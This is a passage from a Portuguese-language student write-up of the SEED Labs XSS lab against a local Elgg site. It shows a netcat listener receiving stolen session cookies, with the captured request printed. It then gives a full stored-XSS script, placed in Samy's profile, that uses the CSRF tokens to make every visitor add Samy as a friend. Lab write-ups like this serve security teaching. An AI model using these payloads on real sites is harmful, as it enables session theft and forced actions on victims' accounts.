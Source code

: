 - voltamos a correr `nc -l 5555`
- logamos com outra conta usamos a Alice
- acedemos `http://www.seed-server.com/profile/samy`
- No terminal obtemos...

```shell
GET /?c=pvisitor%3D358953d3-eda2-4066-8630-1144a7e453e0%3B%20__gsas%3DID%3D8140c6a208e921f0%3AT%3D1682715805%3AS%3DALNI_MapjHxS75HbryLtaQxUXNqgZiSpLg%3B%20Elgg%3Dbj1362uihp4u03tm8su0cur019 HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```
Como podemos reparar temos o mesmo pvisitor, ou seja o atacante consegue  fazer com q os cookies sejam enviados para ele.

# Task 4 "Becoming the Victim’s Friend"
Usamos mais uma vez o Samy, e para lhe dar amigos assim que abrissem a página dele fizemos...
- Inspecionamos o source da página dele `view-source:http://www.seed-server.com/profile/samy/edit` para obtermos o link de amigo
Filtrando a maior parte da info do html obtemos então isto:
```javascript

var elgg = {"config":{"lastcache":1587931381,"viewtype":"default","simplecache_enabled":1,"current_language":"en"},"security":{"token":{"__elgg_ts":1684543381,"__elgg_token":"c1C0BTAhy9M3HXo3ZlGu1A"}},"session":{"user":{"guid":59,"type":"user","subtype":"user","owner_guid":59,"container_guid":0,"time_created":"2020-04-26T15:23:51-04:00","time_updated":"2023-05-19T20:42:58-04:00","url":"http:\/\/www.seed-server.com\/profile\/samy","name":"Samy","username":"samy","language":"en","admin":false},"token":"CNtP57AeahuSFO2zAM0Jgv"},"_data":{},"page_owner":{"guid":59,"type":"user","subtype":"user","owner_guid":59,"container_guid":0,"time_created":"2020-04-26T15:23:51-04:00","time_updated":"2023-05-19T20:42:58-04:00","url":"http:\/\/www.seed-server.com\/profile\/samy","name":"Samy","username":"samy","language":"en"}};
```
Com isto reparamos que o código é 59 e apartir daqui construimos o link
```
http://www.seed-server.com/action/friends/add?friend=59
```
Colocamos então este link na variável *sendurl* do script que tinham nos dado no enunciado:
```javascript
<script type="text/javascript">
window.onload = function () {
	var Ajax=null;

	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;

	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;  //FILL IN

	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```
- Colocamos este código no "About Me" do Samy
Tendo isto feito, agora em qualquer conta, se acedermos ao perfil do Samy, iremos tornar automaticamente amigos ;)
